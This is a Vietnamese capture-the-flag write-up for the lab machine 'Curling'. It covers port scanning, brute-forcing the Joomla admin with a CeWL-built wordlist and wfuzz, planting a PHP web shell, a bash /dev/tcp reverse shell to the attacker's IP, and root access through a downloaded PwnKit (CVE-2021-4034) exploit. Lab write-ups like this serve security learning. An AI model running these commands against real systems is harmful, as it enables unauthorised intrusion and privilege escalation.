





## Description

Mình đánh giá machine này không thực tế lắm @@. Nó chủ yếu thiên về mẹo nhiều hơn và khả năng quan sát các keyword. Machine này sẽ giúp chúng ta học thêm về công cụ Cewl và Fuzz.
## Enumeration
### Nmap
```bash
# Nmap 7.95 scan initiated Mon Sep 28 16:28:11 2026 as: nmap -sT -p- --min-rate 1000 -oA nmap/alltcp 10.129.48.10
Nmap scan report for 10.129.48.10
Host is up (0.070s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

# Nmap done at Mon Sep 28 16:28:38 2026 -- 1 IP address (1 host up) scanned in 27.19 seconds
/detailtcp 10.129.48.10
Nmap scan report for 10.129.48.10
Host is up (0.085s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8a:d1:69:b4:90:20:3e:a7:b6:54:01:eb:68:30:3a:ca (RSA)
|   256 9f:0b:c2:b2:0b:ad:8f:a1:4e:0b:f6:33:79:ef:fb:43 (ECDSA)
|_  256 c1:2a:35:44:30:0c:5b:56:6a:3f:a5:cc:64:66:d9:a9 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-generator: Joomla! - Open Source Content Management
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Sep 28 16:32:56 2026 -- 1 IP address (1 host up) scanned in 9.70 seconds
```
### Port 80
Vào trang web xem thử:

Trong thông tin nmap có dòng "Joomla! - Open Source Content Management" -> tra thử open source và CVE không có gì khả quan hết. Trước khi phát hiện web app là open-source, mình như thói quen quét thử bằng gobuster và phát hiện có một file `secret.txt`
```bash
gobuster dir -u http://10.129.48.10 -w /usr/share/wordlist/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 40
```

Mình base64 thử vì cứ có dòng chữ nào với kí tự khó hiểu thì cứ đem base64 :))
```bash
$curl http://10.129.48.10/secret.txt
Q3VybGluZzIwMTgh
$curl http://10.129.48.10/secret.txt | base64 -d
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    17  100    17    0     0    112      0 --:--:-- --:--:-- --:--:--   112
Curling2018!
```
### Cewl (Custom Word List Generator)
Là công cụ cào chữ từ một website để tạo wordlist. Nó truy cập trang web, thu thập tất cả từ ngữ xuất hiện trên đó, rồi xuất ra một danh sách từ.


Ý tưởng của tác giả chắc là gợi ý tiêu đề trên trang web "Cewl Curling Site" kèm theo nội dung `secret.txt` muốn người làm phải sử dụng tool Cewl để tạo wordlist để brute-force vào trang Admin của Joomla-CMS.
```bash
cewl http://10.129.48.10 -w wordlist.txt
```
### Fuzz
Vì tình hình machine khá là lag nên mình sẽ không mô ta chi tiết vì sao sử dụng câu lệnh này, mọi người có thể tham khảo tại https://www.youtube.com/watch?v=Paajc2Dupms

Sử dụng câu lệnh:
```bash
wfuzz --hc 200 -w wordlist.txt -d 'username=FUZZ&passwd=Curling2018!&option=com_login&task=login&return=aW5kZXgucGhw&60b178357960294ee627e6cbf59602e1=1' -b 'c0548020854924e0aecd05ed9f5b672b=ma0eejgkuetnukqu8picgoiqj0; 99fb082d992a92668ce87e5540bd20fa=mjnt1midvbcshb8u40i8p0sl21' 'http://10.129.48.10/administrator/index.php' 
```

Kết quả cho ra Floris là hợp lệ.

## Shell as www-data
Vào Extension -> Templetes -> protostar -> New File -> shell.php
```bash
#curl -G "http://10.129.48.10/templates/protostar/shell.php" --data-urlencode cmd="bash -c 'bash -i >& /dev/tcp/10.10.14.30/8080 0>&1'"
```
Tại thư mục home của floris:
```bash
www-data@curling:/home/floris$ ls
admin-area  password_backup  user.txt
www-data@curling:/home/floris$ cat password_backup 
00000000: 425a 6839 3141 5926 5359 819b bb48 0000  BZh91AY&SY...H..
00000010: 17ff fffc 41cf 05f9 5029 6176 61cc 3a34  ....A...P)ava.:4
00000020: 4edc cccc 6e11 5400 23ab 4025 f802 1960  N...n.T.#.@%...`
00000030: 2018 0ca0 0092 1c7a 8340 0000 0000 0000   ......z.@......
00000040: 0680 6988 3468 6469 89a6 d439 ea68 c800  ..i.4hdi...9.h..
00000050: 000f 51a0 0064 681a 069e a190 0000 0034  ..Q..dh........4
00000060: 6900 0781 3501 6e18 c2d7 8c98 874a 13a0  i...5.n......J..
00000070: 0868 ae19 c02a b0c1 7d79 2ec2 3c7e 9d78  .h...*..}y..<~.x
00000080: f53e 0809 f073 5654 c27a 4886 dfa2 e931  .>...sVT.zH....1
00000090: c856 921b 1221 3385 6046 a2dd c173 0d22  .V...!3.`F...s."
000000a0: b996 6ed4 0cdb 8737 6a3a 58ea 6411 5290  ..n....7j:X.d.R.
000000b0: ad6b b12f 0813 8120 8205 a5f5 2970 c503  .k./... ....)p..
000000c0: 37db ab3b e000 ef85 f439 a414 8850 1843  7..;.....9...P.C
000000d0: 8259 be50 0986 1e48 42d5 13ea 1c2a 098c  .Y.P...HB....*..
000000e0: 8a47 ab1d 20a7 5540 72ff 1772 4538 5090  .G.. .U@r..rE8P.
000000f0: 819b bb48 
```

## Shell as floris
Quy trình leo root lúc nào cũng check những file có gắn bit suid:
```bash
find / -perm -4000 -ls 2>/dev/null
```
Phát hiện `/usr/bin/pkexec`.
### pkexe
Gắn liền với CVE-2021-4034 (PwnKit) - một lỗ hổng cực kỳ nổi tiếng, cho phép bất kỳ user thường nào leo thẳng lên root, hoạt động hầu hết bản Ubuntu/Debian/CentOS trong nhiều năm.
Link script: [ly4k/PwnKit: Self-contained exploit for CVE-2021-4034 - Pkexec Local Privilege Escalation](https://github.com/ly4k/PwnKit)
```bash
floris@curling:~$ wget http://10.10.14.30/PwnKit
--2026-09-28 13:17:49--  http://10.10.14.30/PwnKit
Connecting to 10.10.14.30:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 18040 (18K) [application/octet-stream]
Saving to: ‘PwnKit’

PwnKit                                    100%[==================================================================================>]  17.62K  --.-KB/s    in 0.08s   

2026-09-28 13:17:49 (227 KB/s) - ‘PwnKit’ saved [18040/18040]

floris@curling:~$ ls
PwnKit  admin-area  password_backup  user.txt
floris@curling:~$ chmod +x PwnKit
floris@curling:~$ ls
PwnKit  admin-area  password_backup  user.txt
floris@curling:~$ ./PwnKit
root@curling:/home/floris# ls
PwnKit  admin-area  password_backup  user.txt
root@curling:/# cd root/
root@curling:~# ls
default.txt  root.txt
```
